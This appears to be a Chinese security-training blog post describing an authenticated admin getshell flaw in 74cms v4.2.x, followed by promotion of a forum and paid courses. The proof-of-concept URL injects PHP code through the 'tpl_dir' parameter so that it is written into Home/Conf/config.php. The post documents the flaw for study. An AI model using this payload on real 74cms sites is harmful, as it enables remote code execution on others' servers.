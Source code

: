#  74cms v4.2.1 v4.2.129 后台getshell漏洞   
闻人语默  老鑫安全   2024-12-16 08:04  
  
点击蓝字  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSCYW8lTJ4T5ARwhvDzGwHubPrpM1XKjsJvycugae7fCXjWmiaC6XPUUA/640?wx_fmt=gif&from=appmsg "")  
  
关注我们  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSnzqAUFibEeITqiaLvaQlJhibgfMws1w6THQT8yhHP2nSXgPcRZJ1YE4Cg/640?wx_fmt=gif&from=appmsg "")  
  
**漏洞描述**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSn7LTcn4rfrptSyM7QvPF1wGxCTy1l0BZf8EoP4Bfic5rjva2M1duEQA/640?wx_fmt=png&from=appmsg "")  
  
  
厂商：74cms下载地址：  
```
http://www.74cms.com/download/index.html
```  
  
  
关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxS9h1wgWnicGwwqPuhXuerzoiaqGDmiaVabO6PWn8gu3qlSJtMEyHTkJVQA/640?wx_fmt=gif&from=appmsg "")  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSbhDz1arOgSicU9IErETPU1evqj2niaTKtjibicjwZeSePVqx4jnwNPicBxA/640?wx_fmt=gif&from=appmsg "")  
  
  
  
74cms升级到最新版  
  
1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5， 搜索文件  
```
74cms\upload\Application\Admin\Controller\ApplyController.class.php6,查找所有$_SERVER['HTTP_HOST'] 改为http://baidu.com即可
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxS9h1wgWnicGwwqPuhXuerzoiaqGDmiaVabO6PWn8gu3qlSJtMEyHTkJVQA/640?wx_fmt=gif&from=appmsg "")  
  
**漏洞演示url**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSbhDz1arOgSicU9IErETPU1evqj2niaTKtjibicjwZeSePVqx4jnwNPicBxA/640?wx_fmt=gif&from=appmsg "")  
  
  
```
http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```  
  
  
shell:  
```
http://74cms.test/Application/Home/Conf/config.php
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxS9h1wgWnicGwwqPuhXuerzoiaqGDmiaVabO6PWn8gu3qlSJtMEyHTkJVQA/640?wx_fmt=gif&from=appmsg "")  
  
**路径**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSbhDz1arOgSicU9IErETPU1evqj2niaTKtjibicjwZeSePVqx4jnwNPicBxA/640?wx_fmt=gif&from=appmsg "")  
  
```
\74cms\upload\Application\Home\Conf\config.php
```  
  
哔哩哔哩账号：《老鑫安全培训》，《老鑫安全二进制》  
  
抖音账号：《老鑫安全培训》  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSnzqAUFibEeITqiaLvaQlJhibgfMws1w6THQT8yhHP2nSXgPcRZJ1YE4Cg/640?wx_fmt=gif&from=appmsg "")  
  
论坛链接：  
  
https://www.laoxinsec.com/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSn7LTcn4rfrptSyM7QvPF1wGxCTy1l0BZf8EoP4Bfic5rjva2M1duEQA/640?wx_fmt=png&from=appmsg "")  
  
  
**为什么要创建一个论坛：**  
  
大家可能不明白为什么我们需要创建一个论坛，并进行分享，在各大群里分享我们的链接，这里我来介绍一下，关注我们论坛的好处，第一，相信大家在年末的时候经常投简历，或许走内推或许在各大软件推送，但是岗位是有限的，并且因为群聊过多，无法集中性管理，我们后续会在论坛发布各类**招聘信息**  
，第二，我们的论坛加设了**交流区**  
可以在论坛进行讨论。第三，我们的论坛界面**清新脱俗**  
，大家可以创建自己的账号，发表关于自己的意见，我们会**采纳各位的建议**  
，后续进行改进，**一路走来，全都有你们。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSyCrMXV0BEalEVTAv5VfakX191E2Phju8icjTEBftCicprDqjPZDyUlkg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxS7hYrSD99v1ucZD4axwCUbmibYiakiaXwXN7nD8xuE1ibyyciaIy6kPnicXlw/640?wx_fmt=jpeg&from=appmsg "")  
  
今天的分享就到此为止。  
  
如果大家有关于我们论坛整改的意见，大家可以加我们的管理员微信，让他拉你们进群。  
  
备注：  
**进群**  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSP6G9kJ395sF12u1KrwSmDtezRuBq60DSmVk6Lg6lKJrgqmD6Y6hEXQ/640?wx_fmt=jpeg&from=appmsg "")  
  
****  
当然我们也做线上视频课程，我们的讲师有两位：  
  
**老鑫**  
：鑫哥做线上课程年数已经达到5+，在哔哩哔哩上都有往期公开的课程，前Wooyun核心白帽子，痴迷底层技术，在二进制方向有一定技术积累，后从事网安培训多年，截止目前已培训350+学员，培训学员遍布各大安全企业及机关单位。除二进制，web安全、安全开发、逆向等安全技术均有涉及。公众号：studentSec。    
  
**濠哥**  
：濠哥更是作为奇安信粤东安全运营中心技术专家，曾多次参与北上广深杭海南的金融业和电子政务机构的攻防演习与安全运营体系建设，曾被上海中型规模教育培训机构特聘为安全测试讲师。  
  
这是我们的**基础课程**  
，现在已经是第五期，这张表里介绍了我们的基础课程：![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSgXPKnC2GM99CDXfLXHkrUZ8ibcVVVuX4lj9BfLJWs4xKY1x7kHJ4JaA/640?wx_fmt=jpeg&from=appmsg "")  
    
  
  
这是我们的进阶课程：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxSyiaPtBxQmOtKcDFjYKLTLI3qheWxkTdbb1JLkkz9CicPPTicIfiaTxGY8g/640?wx_fmt=jpeg&from=appmsg "")  
    ![](https://mmbiz.qpic.cn/mmbiz_jpg/bkcWdoIicx2ctsUTqV2maicsvGH6uMXAxStHQ1xKia24TFI2sHibaqIJqKlu3aOqYwFtvC7t42mPqO9yYBfJicHbhnA/640?wx_fmt=jpeg&from=appmsg "")  
    
  
